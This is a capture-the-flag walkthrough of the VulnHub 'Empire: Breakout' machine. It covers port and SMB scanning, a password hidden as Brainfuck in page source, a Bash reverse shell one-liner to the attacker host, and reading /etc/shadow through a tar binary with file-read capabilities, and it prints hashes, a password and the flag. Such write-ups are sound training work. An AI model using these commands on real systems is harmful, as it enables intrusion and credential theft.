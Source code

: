 Box Link: https://www.vulnhub.com/entry/empire-breakout,751/

Difficulty: Easy

## Recon
- Requires a username & password
- No feedback given upon failure

## Scanning
IP: eth0: 192.168.68.109

What services are running on the target?
`nmap -sCV -v -oN tcp 192.168.68.109`
- Scan for service versions & default scripts, with verbose, output to file `tcp`

| Port      | Service                 | Version | Description                                                                                  |
| --------- | ----------------------- | ------- | -------------------------------------------------------------------------------------------- |
| 80/tcp    | Apache httpd            | 2.4.51  | Apache web server                                                                            |
| 139/tcp   | netbios-ssn samba smbd  | 4.6.2   | smbd is the server daemon that provides filesharing and printing services to Windows clients |
| 445/tcp   | netbios-ssn samba smbd  | 4.6.2   | smbd is the server daemon that provides filesharing and printing services to Windows clients |
| 10000/tcp | MiniServ (Webmin httpd) | 1.981   | Web-based admin system                                                                       |
| 20000/tcp | MiniServ (Webmin httpd)                | 1.830   | Web-based admin system                                                                       |

Running an `smbmap -H 192.168.68.109` checked for all the disks hosted:
```shell
[+] IP: 192.168.68.109:10000	Name: 192.168.68.109                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.13.5-Debian)
```

Running `gobuster` on the site also identified the `/server-status` which resulted in a 403 (Forbidden).

https://192.168.68.109:10000/ is running a **Webmin** login

https://192.168.68.109:20000/ is running a **Usermin** login

Hidden at the bottom of the page-source for the default page is:
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```
This is written in brain fuck, when run it decrypts a password: `.2uqPEfj3D<P'a-3`

Running `enum4linux -a 192.168.68.109` which scans for smb information, identified a user:
`S-1-22-1-1000 Unix User\cyber (Local User)`

Attempting to log into `Usermin` *(port 20000)* with:
- Username: `cyber`
- Password: `.2uqPEfj3D<P'a-3`

Results in success

## Exploitation

After logging into the user account, noticed there was a command terminal.

Ran `bash -i >& /dev/tcp/PARROT_IP/4444 0>&1` on the target to open a reverse shell.
Then using netcat `nc -lvp 4444` on the parrot machine I have connected as cyber.

Gaining some information on the target system:
`cat /proc/version || uname -a`
```
Linux version 5.10.0-9-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6) 10.2.1 20210110, GNU ld (GNU Binutils for Debian) 2.35.2) #1 SMP Debian 5.10.70-1 (2021-09-30)
```

`lsb_release -a`
```
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 11 (bullseye)
Release:	11
Codename:	bullseye
```

`cat /etc/os-release`
```
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

We can see they are running Debian Bullseye version 11.

Now we want to gain root access: Privilege escalation.
Exploring an interesting article for PE using getcap https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/?source=post_page-----dc3170d7748f--------------------------------

When we run `getcap -r / 2>/dev/null` we can see some interesting permissions on the ./tar binary. `cap_dac_read_search` can be seen on the binary.

**CAP_DAC_READ_SEARCH** [Source](https://linux.die.net/man/7/capabilities)
- Bypass file read permission checks and directory read and execute permission checks.

This means we can archive files or directories we don't have permission to access then extract them to view their contents.

Targeting the `/etc/shadow` file we can get all the password hashes for the different accounts on the system.

`tar -cvf shadow.tar /etc/shadow` to archive the dir
`tar -xvf shadow.tar` to extract it

```shell
$ cat shadow
root:$y$j9T$M3BDdkxYOlVM6ECoqwUFs.$Wyz40CNLlZCFN6Xltv9AAZAJY5S3aDvLXp0tmJKlk6A:18919:0:9
...
cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:
```

Above would have forced me to crack the hash, so we check the `/var/backups/.old_pass.bak` using the same method, and we find an old password:
`Ts&4&YurgtRX(=~h`

`cat /root/rOOt.txt` reveals the final flag: `3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}`